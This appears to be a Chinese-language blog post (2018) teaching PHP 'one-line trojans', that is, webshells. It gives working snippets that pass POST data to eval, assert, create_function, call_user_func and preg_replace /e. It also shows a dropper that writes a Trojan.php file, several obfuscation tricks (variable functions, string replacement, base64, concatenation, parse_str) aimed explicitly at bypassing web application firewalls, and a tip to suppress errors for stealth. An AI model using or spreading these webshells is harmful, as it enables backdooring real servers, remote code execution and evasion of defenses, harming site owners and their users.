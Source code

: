 ```yaml
---
layout: post
title: "PHP之一句話木馬"
date: 2018-12-18 00:25:20 +0800
categories: [php,web,security]
tags: [php,web,security]
---
```


## 什麼是一句話木馬

**一句話木馬就是只需要一行代碼的木馬，短短一行代碼，就能做到和大馬相當的功能。為了繞過waf的檢測，一句話木馬出現了無數中變形，但本質是不變的：木馬的函數執行了我們發送的命令。**

**我們如何發送命令，發送的命令如何執行？
我們可以通過`GET` 、`POST` 、`COOKIE`這三種方式向一個網站提交數據，一句話木馬用`$_GET[' ']`、`$_POST[' ']`、`$_COOKIE[' '] `接收我們傳遞的數據，並把接收的數據傳遞給一句話木馬中執行命令的函數，進而執行命令。
所以看到的經典一句話木馬大多都是只有兩個部分，一個是可以執行代碼的函數部分，一個是接收數據的部分。**
例如：
```php
<?php eval(@$_POST['a']); ?>
```
其中eval就是執行命令的函數，`$_POST['a']`就是接收的數據。 eval函數把接收的數據當作PHP代碼來執行。這樣我們就能夠讓插入了一句話木馬的網站執行我們傳遞過去的任意PHP語句。這便是一句話木馬的強大之處。

---

### **使用 其他函數製作一句話木馬**

#### **assert函數**
```php
<?php assert(@$_POST['a']); ?>
```
---

#### **create_function函數**
```php
<?php
$fun = create_function('',$_POST['a']);
$fun();
?>
```

把用戶傳遞的資料形成一個函數fun()，然後再執行fun()

---

#### **call_user_func回調函數**
```php
<?php
@call_user_func(assert,$_POST['a']);
?>
```

`call_user_func`這個函數可以呼叫其它函數，被呼叫的函數是`call_user_func`的第一個函數，被呼叫的函數的參數是`call_user_func`的第二個參數。
<br />
這樣的一個語句也可以完成一句話木馬。一些被waf攔截的木馬可以配合這個函數繞過waf。

---

#### **preg_replace函數**
```php
<?php
@preg_replace("/abcde/e", $_POST['a'], "abcdefg");
?>
```

這個函數原本是利用正則表達式替換符合條件的字符串，但是這個函數有一個功能——可執行命令。這個函數的第一個參數是正則表達式，按照PHP的格式，表達式在兩個"/"之間。如果我們在這個表達式的末尾加上"e"，那麼這個函數的第二個參數就會被當作代碼執行。

---

#### **file_put_contents函數**

#### 利用函數生成木馬

```php
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
```
函數功能：產生一個文件，第一個參數是文件名，第二個參數是文件的內容。

---

### 讓一句話木馬繞過waf


#### **PHP變量函數**
```php
<?php
$a = "eval";
$a(@$_POST['a']);
?>
```
第三行使用了變數函數$a，變數儲存了函數名eval，便可以直接用變數替代函數名。

---

#### **PHP可變變量**
```php
<?php
$bb="eval";
$a="bb";
$$aa($_POST['a']);
?>
```

看這句就能理解上述語句：`$$aa = $($aa) = $ (‘bb’) = $bb = "eval"`

---

#### **str_replace函數**
```php
<?php
$a=str_replace("Waldo", "", "eWaldoval");
$a(@$_POST['a']);
?>
```

函數功能：在第三個參數中，查找第一個參數，並替換成第二個參數。這裡第二個參數為空字符串，就相當於刪除"Waldo"。

---

#### **base64_decode函數**
```php
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

這裡是base64解密函數，"ZXZhbA=="是eval的base64加密。

---

### **"."操作符號**
```php 
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```
---

### **parse_str函數**
```php
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>
```
執行這個函數後，生成一個變數$a，值為字符串"eval"

---

### **更多技巧...**
`多實戰，多Google！`

上述六種技巧每一種單獨使用都不能繞過waf，但是與 第三大點提到的函數混合起來使用，就可以順利的欺騙waf。
`tips：使用一句話木馬的時候可以在函數前加”@”符，這個符號讓php語句不顯示錯誤信息，增加隱蔽性。`

---

### **再來一個小栗子**
```php
<?php
function fun()
{return $_POST['a'];}
@preg_replace("/test/e",fun(),"test test test");
?>
```
這裡又有一個技巧，創建函數 fun()，返回post中"a"的數據。

資料來源<br />
[PHP之一句話木馬](https://xz.aliyun.com/t/2786)